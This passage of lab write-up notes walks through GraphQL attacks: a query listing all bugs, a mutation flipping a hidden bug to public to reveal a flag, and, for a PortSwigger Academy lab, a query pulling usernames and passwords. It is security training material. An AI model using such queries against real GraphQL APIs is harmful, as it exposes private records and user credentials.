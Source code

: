 - Ok now we could craft a query to check all bugs:

PING

```html
query{
  allBugs{
    id
    text
    private
  }
}
```

PONG

```html
{
  "data": {
    "allBugs": [
      {
        "id": "QnVnczox",
        "text": "This is an example bug",
        "private": false
      }
    ]
  }
}
```

- So we could see that there are hidden (private=true) bugs apparently
- Let's try to mutate second bug:

```html
mutation{
  modifyBug(id:2,private: false){
    ok
  }
}
```

- Now if we will check all bugs, we will see a new one (previously hidden) with a flag

#### Lab: Accidental exposure of private GraphQL fields (Portswigger Academy)

- Actually this one would be almost the same as a first one - check what we have using the big one introspection query, put the data into visualizer, and then craft a query to expose a username/password (pay attention that we have variables as a separate object!):

```html
query getUser($id: Int!) {
  getUser(id: $id) {
    id
    username
    password
  }
}
```
